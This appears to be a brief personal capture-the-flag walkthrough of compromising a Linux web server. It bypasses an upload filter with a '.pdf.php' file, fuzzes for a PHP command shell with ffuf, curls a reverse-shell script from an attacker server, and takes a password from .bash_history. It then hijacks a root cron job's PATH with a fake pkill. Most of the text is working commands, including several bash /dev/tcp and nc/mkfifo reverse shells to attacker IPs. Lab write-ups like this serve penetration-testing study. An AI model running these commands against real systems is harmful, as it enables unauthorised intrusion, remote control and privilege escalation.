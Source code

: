 fuzz- ffuf
php cmd=id(php command execution)
bash rev shell 
python server
curl - download
.bash_history
ssh reverse
bash tcp rev shell

did my all scans found ssh,http
web had upload.php it was to upload files. but it was only coded to get only .pdf files. these files were connected to /cvs dir. 
the code only check ".pdf " in name. we can upload this since it has .pdf in the name ->1.pdf.php

i thought still hacker had his uploaded shell in /cvs so i did fuzz attack using ffuf

[ffuf -u http://ip/cvs/FUZZ.pdf.php -w /usr/share/wordlists/dir/common.txt]

identify the php variable

[ffuf -u http://ip/cvs/shell.pdf.php?FUZZ=id -w common.txt   ]

since this has php command execution vulnerability we can upload a revshell.sh and execute it and take the remote connection.

[bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 ] - saved this as rshell.sh

created a python server in that dir. and goal is to upload it into server.

[pdf.php?cmd=curl http://10.8.0.247:8000/rshell.sh --output rshell.sh]

[bash rshell.sh]

password could find on .bash_history

log in ssh and givin a reverse shell on ssh

[ssh lachlan@10.10.136.86 'bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.0.247 9001 >/tmp/f"'] - online rev shell generator- ncmkfifo

check on cron.d/persistence

cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done


pkill command not triggering from the path variable. so we can create fake pkill script in username/bin dir and it will triger in every minute.  edit pkill in home/user/bin like this

[bash -c 'bash -i >& /dev/tcp/10.8.0.247/4444 0>&1']

[bash -c 'exec bash -i &>/dev/tcp/10.4.41.28/5555 <&1']



